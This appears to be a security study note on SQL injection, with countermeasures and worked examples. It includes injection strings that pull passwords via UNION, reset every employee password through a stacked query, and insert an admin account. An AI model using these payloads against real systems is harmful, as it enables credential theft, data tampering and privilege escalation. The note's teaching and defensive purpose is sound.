 ## Injection Attacks
* Application accepts data that is "interpreted" e.g. as SQL command, OS commands etc.

### SQL Injection
* Input data is interpreted as SQL commands due to wrong usage (building SQL queries using string concatination)
* This can be used to get information about the underlining database (table names etc.) and use this to gather information like usernames or passwords etc.
* Checking for SQL injection errors can be done by inserting single quote characetr `'` to check whether this produces an error
* Countermeasures:
  * Always use prepared statements and not string concatination
  * Perform input validation (but might be tricky)
  * Do not populate error information to user

Example for `UNION`:
```sql
-- executed query:
SELECT * FROM user_data WHERE last_name = '<parameter>'

-- injected string:
-- Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee WHERE '' = '

-- resulting query:
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee WHERE '' = ''

-- even simpler:
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee--'
```

Multiple Queries (only possible if program supports the execution of multiple statements at once):
```sql
-- executed query:
SELECT * FROM user_data WHERE last_name = '<parameter>'

-- injected string:
-- Smith'; UPDATE employee SET password = 'foo'--

-- resulting query:
SELECT * FROM user_data WHERE last_name = 'Smith'; UPDATE employee SET password = 'foo'--'
```

Example for `INSERT`:
* Inserts additional user with more privileges
```sql
-- executed query:
INSERT INTO User (type, username, password) VALUES ('user', '<parameter1>', '<parameter2>')

-- injected string for parameter2:
-- userpass'), ('admin', 'Superuser', 'adminpass')--

-- resulting query:
INSERT INTO User (type, username, password) VALUES ('user', 'parameter1', 'userpass'), ('admin', 'Superuser', 'adminpass')--')
```
